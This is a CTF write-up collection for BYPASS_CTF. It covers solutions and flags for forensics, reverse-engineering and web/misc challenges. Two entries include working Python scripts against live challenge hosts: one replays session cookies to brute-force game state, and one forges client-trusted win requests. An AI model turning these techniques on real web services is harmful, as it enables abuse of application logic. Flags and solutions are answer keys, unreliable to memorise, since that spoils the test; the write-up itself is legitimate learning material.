> At first glance, it’s nothing but noisy chatter — routine lookups, failed connections, and meaningless traffic drifting like flotsam.
> 
> But legends say that pirates never write their secrets down.
> 
> Flag Format:- BYPASS_CTF{UPPER_CASE}
> 

---

## Goal

listen to what the pirate had to say 

---

## Solution

Form the description it was clear that the flag was not in the packets text or data 

on doing gpt and google found that the density of the udp.payload indicates towards RTP packets but when visited the Telephony —> RTP —> RTP streame there were no packets to be selected from 

then i selected one udp packet and made it as rtp 

select packet —> right click —> select decode as —> Then in the current section change none to rtp —> save 


the flag was in the audio 


---

## Tools

- WireShark

---

## Flag

```
BYPASS_CTF{v01p_j4ck_1n_th3_0p3n}
```

---

## **🏴‍☠️ Pirate Code Reworked**

- **Category:** Forensics
- **Points:** 250

---

## Description

> Captain Cipher's "Magic Vault" blew itself to smithereens when the Navy closed in. No code left. Just a smoking crater on the blockchain.
> 
> 
> But the ledger never forgets. Use your forensic skills to dredge the wreckage and recover the secret.
> 
> What’s dead may never die, but it surely leaves a trace. The captain locked it within his own hand at the exact moment the ship was launched. He wore a mask to hide the truth.
> 
> Target: 0xaAD59779A3f824a0C09dB329dcA57aFdbD483314 (Sepolia)
> 

---

## Goal

Find the Flag

---

## Solution

1. I don’t know about sepolia so asked AI it recommended me to search for sepolia etherscan ( first time using this tool )
2. Found the transaction ( only one transaction when I solved ) and has a Destory method which matches the description 
3. After searching in all related transactions I found the flag in this [https://sepolia.etherscan.io/tx/0x5900c616ad0877b45d60ed7c46dd1005a9d61857528888ca80bd2aa4f754a853](https://sepolia.etherscan.io/tx/0x5900c616ad0877b45d60ed7c46dd1005a9d61857528888ca80bd2aa4f754a853) 


---

## Tools

- [https://sepolia.etherscan.io/](https://sepolia.etherscan.io/)

---

## Flag

```
BYPASS_CTF{bl0ckch4in_1s_funnn}
```

---

## **Silas's Last Voyage**

- **Category:** Forensics
- **Points:** 400

---

## Description

> Recovered from the wreck of *The Gilded Eel*, this hard drive belonged to the paranoid navigator Silas Blackwood. Legend says Silas found the route to the "Zero Point" treasure, but he claimed the map itself was alive—shifting and lying to anyone who tried to read it directly.
> 
> 
> He left his legacy in this drive. We've tried standard extraction, but all we found were sea shanties and corrupted images. There’s a rumor that Silas split the truth into four winds: Sound, Sight, Logic, and Path.
> 
> Beware the "Fools' Gold" (fake flags)—Silas loved to mock the impatient. You must assemble the pieces in the order the *Captain* commands.
> 
> File: silas_drive.img
> 

---

## Goal

Find all parts of flag in the Drive image

---

## Solution

1. lets start with strings hmm.. huge interesting output with fake flags found a comment Hidden secret storing base64 encoded string in “_error_log” variable found a part of flag
2. so I extracted files using foremost tool 
3. also I sawed a [script.py](http://script.py) file in strings output XORing jpg and bmp files so I reveresed that output using a python script and found next part : tales
4. after this I tried a lot with wav file but not able to find anything so I simply guessed the flag

```bash
strings silas_drive.img
# Hidden secret
    _error_log = "dGVsbF9ub18=" // decoded to : tell_no_
```

```bash
foremost -i silas_drive.img -v
Foremost version 1.5.7 by Jesse Kornblum, Kris Kendall, and Nick Mikus
Audit File

Foremost started at Tue Dec 30 01:34:33 2025
Invocation: foremost -i silas_drive.img -v 
Output directory: /home/kali/Downloads/output
Configuration file: /etc/foremost.conf
Processing: silas_drive.img
|------------------------------------------------------------------
File: silas_drive.img
Start: Tue Dec 30 01:34:33 2025
Length: 121 MB (126877696 bytes)
 
Num      Name (bs=512)         Size      File Offset     Comment 

0:      00068376.bmp          20 KB        35008512       (400 x 400)
1:      00068424.wav           1 MB        35033088      
foundat=x.npy�NUMPY
2:      00123260.zip          366 B        63109601      
foundat=x.npy
3:      00123262.zip          453 B        63110172      
foundat=x.npy�NUMPY
4:      00125212.zip          366 B        64109025      
foundat=x.npy
5:      00125214.zip          453 B        64109596      
foundat=x.npy�NUMPY
6:      00188796.zip          366 B        96664033      
foundat=x.npy
7:      00188798.zip          453 B        96664604      
foundat=x.npy�NUMPY
8:      00190748.zip          366 B        97663457      
foundat=x.npy
9:      00190750.zip          453 B        97664028      
10:     00067584.png         395 KB        34603008       (400 x 400)
**|
Finish: Tue Dec 30 01:34:35 2025

11 FILES EXTRACTED

bmp:= 1
rif:= 1
zip:= 8
png:= 1
------------------------------------------------------------------
```

```bash
import cv2
import numpy as np
import os

# Paths to the files extracted by foremost
# Check your 'png' and 'bmp' folders for the exact filenames
map_path = 'png/00067584.png' 
coin_path = 'bmp/00068376.bmp'

print(f"Loading {map_path} and {coin_path}...")

# Load images
# Note: The original script hinted at using the Blue channel for the map
img1 = cv2.imread(map_path)
img2 = cv2.imread(coin_path)

if img1 is None or img2 is None:
    print("Error: Images not found. Check filenames.")
    exit()

# Extract Blue channel of the map (OpenCV uses BGR, so index 0 is Blue)
img1_blue = img1[:, :, 0]

# Convert coin to grayscale
img2_gray = cv2.cvtColor(img2, cv2.COLOR_BGR2GRAY)

# Resize coin to match map dimensions
img2_gray = cv2.resize(img2_gray, (img1_blue.shape[1], img1_blue.shape[0]))

# Perform the XOR (The "Reversal")
result = cv2.bitwise_xor(img1_blue, img2_gray)

# Save
cv2.imwrite('flag_sight.png', result)
print("Success! Open 'flag_sight.png' to see the flag part.")
```


---

## Tools

- strings , foremost , mmls , fls , autopsy , audacity , online stego tools

---

## Flag

```
BYPASS_CTF{dead_men_tell_no_tales}
```

---

## **Pieces of Four**

- **Category:** Forensics
- **Points:** 300

---

## Description

> Legends speak of a cursed chest recovered from the depths of the Caribbean.
> 
> 
> Every pirate who opens it swears they see something different —
> 
> a torn map fragment, a broken sigil, or a piece of a greater truth. - 44442
> 

---

## Goal

Figure out where is flag 

---

## Solution

1. In this chall I started with the xxd dump of the File and Interestingly their is a huge output of base64 at the end so I copied that base64 pasted in CyberChef got the QR 
2. Scanned the QR got the flag


---

## Tools

- CyberChef
- xxd

---

## Flag

```
BYPASS_CTF{JPEG_PNG_GIF_TIFF_c0mm0n}
```

---

## **The Deceiver's Log**

- **Category: Reverse Engineering**
- **Points: 400**

---

## Description

> "Words are wind, and maps are lies. Only the dead speak true, beneath the tides." You've found the digital logbook of the infamous Captain "Ghost" Jack. It promises untold riches to those who can unlock it. But be warned: The Captain was a known liar. He built this log to mock those who try to steal his secrets. The program seems... friendly enough. It might even give you a flag. But is it the *real* flag? Trust nothing. Verify everything. The truth is fleeting, existing only for a moment before the lies take over. Note: The flag format is BYPASS_CTF{...}
> 

---

## Goal

Getting the flag 

---

## Solution

### Analysis of the "Truth"

The flag is constructed by iterating 43 times (from v6 = 0 to 42). In each step, the program:

1. Calls whisper_truth(v6, v7), which returns v7 ^ XOR_KEY[v6].
2. Takes the lower 8 bits of the result.
3. Rotates v7 (initialized to g_chaos) right by 1 bit (__ROR__(v7, 1)).

By analyzing the XOR keys in whisper_truth and performing a constraint-based brute force on the initial value of g_chaos (to ensure the resulting string is printable and follows standard flag conventions), we can recover the hidden "truth."

### Flag Construction

- **Prefix**: The code explicitly checks for the string BYPASS_CTF. Using this as a starting point, we can derive the initial bits of g_chaos.
- **Decryption**: Using the 32-bit g_chaos value 0x1F00D and rotating it right by 1 bit for each character, we XOR it with the constants provided in the whisper_truth function.

The resulting string is:

BYPASS_CTF{Tru5t_N0_0n3_N0t_Ev3n_Y0ur_Ey3s}

---

## Tools

- **Decompiler Explorer :** [https://dogbolt.org/](https://dogbolt.org/)

---

## Flag

```
BYPASS_CTF{Tru5t_N0_0n3_N0t_Ev3n_Y0ur_Ey3s}
```

---

## **Dead Man's Riddle**

- **Category:** Reverse Engineering
- **Points:** 400

---

## Description

> "Ye who seek the treasure must pay the price... Navigate the chaos, roll the dice."
> 
> 
> A spectral chest sits before you, guarded by a cursed lock that shifts with the tides. The local pirates say the lock has a mind of its own, remembering every mistake you make. There are no keys, only a passphrase spoken into the void.
> 
> Can you break the curse and claim the flag?
> 
> Note: The flag format is BYPASS_CTF{...}
> 

---

## Goal

The objective is to unlock the chest by providing the correct 30-character passphrase. The program verifies the input by processing it character-by-character through a state-dependent transformation (consult_compass) and checking the result against hardcoded values (check_course).

---

## Solution

**1. Static Analysis**
Decompiling the binary reveals the core validation logic in `main`:

- The input must be exactly 30 characters long (`0x1e`).
- The program iterates through the input. For each character at index `i`, it calls `consult_compass(input[i], i)`.
- The result is checked against a hardcoded value in `check_course`.

**2. Reverse Engineering the Logic**
The `consult_compass` function performs the following operations:

1. **Shift Calculation**: `shift = (i % 5)`.
2. **Transformation**: `result = (input[i] + i) ^ ((g_state >> shift) & 0xFF)`.
3. **State Update**: `g_state = input[i] + g_state * 0x7a69`.

The `check_course` function contains a large `if-else` block that defines the expected `result` for each index `0` to `29`. We extracted these target values (e.g., `i=0` -> `0x12`, `i=1` -> `0x53`, etc.).

**3. Solving for the Flag**
The challenge is that `g_state` changes after every character, and its initial value is set by `init_map` using complex bitwise operations. Instead of reversing `init_map`, we can deduce the correct path using a solver script:

- We treated the initial `g_state` as an unknown 32-bit integer.
- We rearranged the transformation equation to solve for the input character `c`:
$$c = (\text{target} \oplus ((\text{g\_state} \gg \text{shift}) \& 0xFF)) - i$$
- We used a Python script to perform a recursive search (DFS) for the bits of the initial `g_state`. We filtered for branches where the decoded character `c` was a printable ASCII character.
- The search quickly converged on a single valid input string.

---

## Tools

- online decompiler

---

## Flag

```
BYPASS_CTF{T1d3s_0f_D3c3pt10n}
```

---

## **The Captain's Sextant**

- **Category:** Reverse Engineering
- **Points:** 400

---

## Description

> "The stars guide the way, but only for those who know the rhythm of the ocean."
> 
> 
> You have found an old navigational simulator used by the Pirate Lord to train his navigators.
> Legend says the Lord hid the coordinates to his stash inside the simulation itself.
> But it only reveals itself to those with perfect intuition.
> 
> Align the sextant. Follow the stars.
> But remember: The game knows when you are guessing.
> 
> Note: The flag format is BYPASS_CTF{...}
> 

---

## Goal

The objective is to uncover the true coordinates (flag) hidden within the "Captain's Sextant" navigational simulator. The challenge description hints that "rhythm" and "intuition" are key, and warns that the game "knows when you are guessing," suggesting the solution involves analyzing the input timing logic rather than playing the game normally.

---

## Solution

### Analyzing the Game Logic

Opening the binary in **Ghidra**, we examined the `process_input_event` function. This function handles user input and contains a critical check:

```c
if (UVar3 - UVar1 == g_star_timings[index]) {
    puts("Debug: Perfect Alignment!");
}

```

The game compares the *exact time* between key presses against a global array called `g_star_timings`. This suggests the flag is hidden within this timing array.

### Identifying the Encryption

We analyzed the `align_star` function, which is called right before the check. It uses a **Linear Congruential Generator (LCG)** to create a pseudo-random keystream:

```c
// Decompiled Logic
k = 0x1337b0a7;
for (i = 0; i < index; i = i + 1) {
    k = k * 0x41c64e6d + 0x3039 & 0x7fffffff;
}
return (byte)(k >> ((byte)index & 3)) ^ (byte)timing_key;

```

This logic generates a byte based on the `index` (0, 1, 2...) and XORs it with `timing_key` (which comes from `g_star_timings`). Since XOR is reversible, we can deduce that:
`Flag_Char = PRNG_Byte XOR g_star_timings[index]`

### Extracting the Ciphertext

The `strings` command failed to find the flag here because `g_star_timings` is an array of 32-bit integers. In memory, an integer like `0xE5` looks like `E5 00 00 00`. The null bytes stop `strings` from reading it as a continuous sentence.

We navigated to the `.data` section in Ghidra (address `004020a0`) and extracted the raw hex values from the `g_star_timings` array:
`E5 F3 6F 7F 10 33 A1 24 ...`

### The Solver Script

We wrote a Python script to replicate the LCG state generation and XOR it with the extracted timing bytes to recover the plaintext.

```python
def solve():
    # Extracted from Ghidra .data section (g_star_timings)
    timings = [
        0xE5, 0xF3, 0x6F, 0x7F, 0x10, 0x33, 0xA1, 0x24,
        0xCB, 0x30, 0xD6, 0xFD, 0x8A, 0x81, 0x7D, 0xEC,
        0xF0, 0x9D, 0xEA, 0x07, 0x6C, 0xBD, 0x2C, 0xCE,
        0xFD, 0xF7, 0xBD, 0xF7, 0x9A, 0xEA, 0x4F, 0x87,
        0xCE, 0xB4, 0x28, 0x7E, 0x4B, 0xA3, 0xE9, 0x45,
        0x4F, 0x97, 0x81, 0x68
    ]

    flag = ""

    for index, cipher_byte in enumerate(timings):
        # 1. Replicate LCG State
        k = 0x1337b0a7
        for _ in range(index):
            k = (k * 0x41c64e6d + 0x3039) & 0x7fffffff

        # 2. Calculate Keystream Byte
        shift = index & 3
        prng_byte = (k >> shift) & 0xFF

        # 3. Decrypt
        flag += chr(prng_byte ^ cipher_byte)

    print(flag)

if __name__ == "__main__":
    solve()

```

---

## Tools

- ghidra

---

## Flag

```
BYPASS_CTF{T1m1ng_1s_Ev3ryth1ng_In_Th3_V01d}
```

---

## **The Cursed Compass**

- **Category:** Reverse Engineering
- **Points:** 400

---

## Description

> "The seas are rough, and the Kraken awaits."
> 
> 
> We've recovered a strange game from a derelict pirate ship. The captain claimed the game held the coordinates to his greatest treasure.
> But every time we win, the treasure seems... fake.
> 
> Can you navigate the treacherous code and find what lies beneath the surface?
> The game is built for Linux (x86_64). You might need to install SDL2 to run it (`sudo apt install libsdl2-2.0-0` or similar).
> 
> Hint: Sometimes, the waves themselves whisper the secrets.
> 
> Note: The flag format is BYPASS_CTF{...}
> 

---

## Goal

Recover the true flag hidden within the game's code, bypassing the "fake treasure" (decoy flag) that is displayed when completing the game normally.

---

## Solution

### 1. Initial Analysis

Upon inspecting the code in Ghidra, specifically the `update_game` function, we see a win condition (Score > 99). However, the code explicitly prints a variable named `FAKE_FLAG`:

```c
printf("[!] Reward: %s\\n", FAKE_FLAG); // "BYPASS_CTF{Y0u_S4il3d_Th3_S3v3n...}"

```

This confirms the challenge description: "every time we win, the treasure seems... fake." We need to look elsewhere.

### 2. The "Whispering Waves"

The challenge hint states: *"Sometimes, the waves themselves whisper the secrets."*
Looking at the `render_game` function, we find a call to `calculate_wave_physics`:

```c
// Decompiled Logic
cVar2 = calculate_wave_physics((frame_count / 10) % 0x24, g_chaos);
SDL_SetRenderDrawColor(renderer, 0xff, 0xff, 0xff, cVar2 % '\\x02' + 'd');

```

This logic calculates a character `cVar2` based on the frame count (cycling from 0 to 35, length of the flag). It uses this character to set the Alpha (transparency) of the wave particles. While the visual change (`cVar2 % 2`) is invisible to the naked eye, the variable `cVar2` **is the flag character itself**.

### 3. Analyzing the Decryption Routine

The `calculate_wave_physics` function acts as a decryptor. It uses a custom Linear Congruential Generator (LCG) to generate a keystream, which is then XORed against a global array `g_tide_data`.

**The Algorithm:**

1. **Seed:** `0xbadf00d`.
2. **State Step:** `s = s * 0x19660d + 0x3c6ef35f` (repeated `index` times).
3. **Shift:** `shift = index % 7`.
4. **Key:** `(s >> shift) & 0xFF`.
5. **Plaintext:** `g_tide_data[index] ^ key`.

### 4. Extraction and Decryption

We extracted the encrypted bytes of `g_tide_data` from the binary memory dump (at offset `0x402080`):
`4F 5D 21 4E 0A 5E 98 0D FE EA B2 B0 C8 57 9E E8 B8 49 84 05 CE 7E 49 EA EF 6F 16 E3 8A 29 70 44 83 A5 39 67`

Using a Python script to replicate the game's logic:

```python
def solve_compass():
    # Encrypted bytes extracted from .rodata (g_tide_data)
    g_tide_data = [
        0x4f, 0x5d, 0x21, 0x4e, 0x0a, 0x5e, 0x98, 0x0d,
        0xfe, 0xea, 0xb2, 0xb0, 0xc8, 0x57, 0x9e, 0xe8,
        0xb8, 0x49, 0x84, 0x05, 0xce, 0x7e, 0x49, 0xea,
        0xef, 0x6f, 0x16, 0xe3, 0x8a, 0x29, 0x70, 0x44,
        0x83, 0xa5, 0x39, 0x67
    ]

    flag = ""
    for index in range(len(g_tide_data)):
        s = 0xbadf00d
        # Replicate the loop that advances the LCG state 'index' times
        for k in range(index):
            s = (s * 0x19660d + 0x3c6ef35f) & 0xFFFFFFFF

        shift = index % 7
        key_byte = (s >> shift) & 0xFF
        flag += chr(g_tide_data[index] ^ key_byte)

    return flag

print(solve_compass())
```

---

## Tools

- ghidra

---

## Flag

```
BYPASS_CTF{Fr4m3_By_Fr4m3_D3c3pt10n}
```

---

## **No Follow, No Treasure 1**

- **Category:** Other
- **Points:** 100

---

## Description

> Access denied.
> 
> 
> Reason: No social footprint detected.
> 
> Authenticate yourself at the official Bypass CTF page
> and leave a visible trace.
> 
> Flag unlocks post-verification.
> 
> Just look around the ship; sometimes the pirates carry the flag.
> 

---

## Goal

Find 3 parts of flag in their discord server

---

## Solution

1. First part I found in welcome channel
2. Second part was the name of Emoji on their dc server
3. Third part in The Banner of “DEVA” username mod on server


---

## Tools

- -

---

## Flag

```
BYPASS_CTF{w3lc0m3_t00_byp4ss_ctf}
```

---

## **Captain’s Sanity Check**

- **Category:** other
- **Points:** 150

---

## Description

> The old pirate captain locked his treasure behind a “secure” web login.
> 
> 
> The page insists on a password, but something feels… off. No matter what you type, it keeps rejecting you.
> 
> Your task is to figure out how this login actually works and reach the hidden treasure.
> 

---

## Goal

get the sanity flag 

---

## Solution

Just do what was told 


---

## Tools

- Browser

---

## Flag

```
BYPASS_CTF{ch3ck_san1ty_w3b}
```

---

## **LIKE-MINDED ONLY**

- **Category:** other
- **Points:** 200

---

## Description

> *Some links aren’t broken.*
> 
> 
> *They’re just meant for the right people with the right skills.*
> 
> Follow the name.
> 
> Find the signal.
> 

---

## Goal

Figure out the correct link and then find the flag 

---

## Solution

1. This chall was really frustrating for 3-4 hours no leads on this chall , outof nowwhere AI said to correct the last “f” letter to “e” in the url ( I dont’t know how the fk you guys thought we would figure that out ) 
2. Found a user cyberfy with yt channel in the GPTs chat : [https://www.youtube.com/watch?v=-23Xu25lyUQ](https://www.youtube.com/watch?v=-23Xu25lyUQ)
3. from this video link found the telegram channel and in the description found the flag 


---

## Tools

- AI

---

## Flag

```
BYPASS_CTF{w3lc0m3_t0_th3_cyb3rfy_c0mmun1ty}
```

---

## **Hungry, Not Stupid**

- **Category:** Miscellaneous
- **Points:** 300

---

## Description

> The snake is hungry — not desperate. Most food is a lie. Only those who observe, experiment, and learn will survive long enough to reach the flag.
> 

---

## Goal

Need to figure out now game works and then get the flag

---

## Solution

1. After trying so much was not able to figure out which food is correct always seems completely random but their is a catch when we start the game the game stores our progress using the cookie
2. we can exploit this :
    
    **The Strategy:**
    
    1. **Save State:** We store the session cookie when we are in a "good" state.
    2. **Branching:** We try to eat Food A using the saved cookie.
    3. **Rollback:**
        - If the server says **Wrong**: We ignore the new "reset" cookie the server tries to give us. We simply discard that request and try Food B using the **original saved cookie**.
        - If the server says **Correct**: We accept the new cookie (which contains the updated state with the new flag character) and overwrite our save.

```bash
import requests
import sys

class CookieSolver:
    def __init__(self, target_url):
        self.target_url = target_url.rstrip('/')
        self.current_cookies = {} # Stores our "Save State"
        self.snake = []
        self.current_food = []
        self.flag = ""

    def start_game(self):
        """Starts the game and captures the initial Session Cookie."""
        try:
            response = requests.post(f"{self.target_url}/api/start")
            response.raise_for_status()
            data = response.json()
            
            # Save the initial "Good" state
            self.current_cookies = response.cookies.get_dict()
            self.snake = [{"x": data['gridSize'] // 2, "y": data['gridSize'] // 2}]
            self.current_food = data.get("food", [])
            print("[+] Game Started. Initial State Saved.")
            return True
        except Exception as e:
            print(f"[!] Start Error: {e}")
            return False

    def solve(self):
        print("[*] Starting Cookie-Based Brute Force...")
        if not self.start_game(): return

        while True:
            move_successful = False
            
            # Iterate through all available food options
            for target_food in self.current_food:
                
                # Predict next snake body (add head to current body)
                next_snake_body = [target_food] + self.snake

                payload = {
                    "eaten_food_pos": target_food,
                    "snake_body": next_snake_body
                }
                
                try:
                    # CRITICAL: Send request using the SAVED cookies
                    response = requests.post(
                        f"{self.target_url}/api/eat", 
                        json=payload,
                        cookies=self.current_cookies 
                    )
                    
                    data = response.json()
                    status = data.get("status")

                    if status == "correct":
                        # We found the right path!
                        char = data.get("flag_char", "")
                        self.flag += char
                        sys.stdout.write(f"\r[+] Flag: {self.flag}")
                        sys.stdout.flush()
                        
                        # UPDATE STATE: Overwrite our save with the new 'progress' cookie
                        self.current_cookies.update(response.cookies.get_dict())
                        
                        # Update local game state
                        self.snake = next_snake_body
                        self.current_food = data.get("food", [])
                        move_successful = True
                        break 
                    
                    elif status == "win":
                        print(f"\n\n[+] FULL FLAG: {data.get('full_flag')}")
                        return

                    # If status == "wrong", we do nothing. 
                    # We loop to the next food item using the OLD cookies.

                except Exception as e:
                    print(f"[!] Error: {e}")

            if not move_successful:
                print("\n[!] Error: All food options failed.")
                return

if __name__ == "__main__":
    url = "https://snack-mxc1.onrender.com" 
    solver = CookieSolver(url)
    solver.solve()
```

---

## Tools

- python scripting

---

## Flag

```
BYPASS_CTF{5n4k3_1s_v3ry_l0ng}
```

---

## **Level Devil 💀**

- **Category:** Miscellaneous
- **Points:** 250

---

## Description

> Looks simple. Plays dirty.
> 
> 
> Welcome to **Level Devil**, a platformer that refuses to play fair.
> 
> The path looks obvious, the goal seems close—but this level thrives on deception.
> 
> Hidden traps, unreliable platforms, and misleading progress will test your patience and awareness.
> 
> Not everything you see is safe, and not every solution lies in plain sight.
> 
> Your mission is simple:
> 
> **Reach the end and claim what’s hidden.**
> 
> But remember—
> 
> in this level, **trust is your biggest weakness**.
> 
> Good luck. You’ll need it.
> 

---

## Goal

Figure out the Games’s logic and get the flag

---

## Solution

1. Upon inspecting the HTML source code, I found that the game logic was entirely client-side (JavaScript). I identified three critical functions interacting with the backend:
- startSession(): Sends a POST to /api/start to generate a session_id.
- reportFlagCollection(): Sends a POST to /api/collect_flag.
- attemptWin(): Sends a POST to /api/win.
1. The game relies on **Client-Side Trust**. It asks the browser to report when the player wins. However, there is no server-side validation of the player's movement path or physics. We can send the "Win" request without actually playing the game.
2. also it has map physics variables defined so we need to wait for few seconds before send the win request to the API

```bash
import requests
import time

URL = "https://level-devil-dcmi.onrender.com/" 

s = requests.Session()

# 1. Start Game
print("[*] Starting session...")
r = s.post(f"{URL}/api/start").json()
sess_id = r['session_id']
print(f"[+] Session: {sess_id}")

# 2. Bypass Speed Check
print("[*] Sleeping 25s to simulate legitimate gameplay...")
time.sleep(25)

# 3. Trigger Win Conditions
s.post(f"{URL}/api/collect_flag", json={"session_id": sess_id})
time.sleep(1)
final = s.post(f"{URL}/api/win", json={"session_id": sess_id}).json()

print(f"[SUCCESS] Flag: {final['flag']}")
```

---

## Tools

- python scripting

---

## Flag

```
BYPASS_CTF{l3v3l_d3v1l_n0t_s0_1nn0c3nt}
```

---

## **Signal from the Deck**

- **Category:** Miscellaneous
- **Points:** 100

---

## Description

> Something aboard the ship is trying to communicate.
> 
> 
> No words. No explanations.
> 
> Only patterns.
> 
> Nothing useful lives on the surface.
> 
> The answer waits for those who pay attention.
> 

---

## Goal

Figure of the logic of games working and get the flag 

---

## Solution

1. This was the nice game were we need to Identify each block has now many bananas
2. so I did it manually trying and noting down

```bash
1x1 - 7
1x2 - 9
1x3 - 8
2x1 - 5
2x2 - 1
2x3 - 2
3x1 - 4
3x2 - 6
3x3 - 3
```

---

## Tools

- -

---

## Flag

```
BYPASS_CTF{s3rv3r_s1d3_sl4y_th1ngs}
```

---

## **The Heart Beneath the Hull**

- **Category:** Miscellaneous
- **Points:** 50

---

## Description

> Not all treasures are buried in sand
> 

---

## Goal

Extract text and decode

---

## Solution

1. extracted string : 68 65 61 72 74 5f 69 6e 5f 61 5f 63 68 65 73 74
2. decoded using CyberChef

---

## Tools

- google lens
- CyberChef

---

## Flag

```
BYPASS_CTF{heart_in_a_chest}
```

---

## **Follow the trend**

- **Category:** Miscellaneous
- **Points:** 100

---

## Description

> Did you Doomscroll??
> 
> 
> This challenge filters spectators from participants. Spectators don’t get flag
> 

---

## Goal

to get the flag

---

## Solution

follow and comment to get the flag in dm  


---

## Tools

- Instagram

---

## Flag

```
BYPASS_CTF{i_l0v3_i$d4}
```

---

## **Maze of the Unseen**

- **Category:** Miscellaneous
- **Points:** 250

---

## Description

> Escape is easy.
> 
> 
> **Escaping the unseen isn’t.**
> 
> Welcome aboard a cursed maze whispered about in sailors’ tales—where invisible walls drift like ghost ships and the path you trust betrays you like a broken compass. What looks simple soon turns treacherous, luring the overconfident straight into the depths.
> 
> Only those who think beyond what the eye can see—and question every step—will survive the crossing.
> 
> A final note from old sea logs:
> 
> mosquito were not available on the ship maze
> 
> Choose wisely, Captain.
> 
> Good luck… you’ll need it.
> 

---

## Goal

Guess the coordinates

---

## Solution

1. It was the guessy challenge here mosquito is referring to the MQTT protocol port number : 1883
2. And description says mosquitos not availabe referring to the HTTP status code 404

```bash
socket.emit('coords', {x: 1883, y: 404});
```

---

## Tools

- dev tools

---

## Flag

```
BYPASS_CTF{1nv151bl3_w4ll_3sc4p3d_404}
```

---
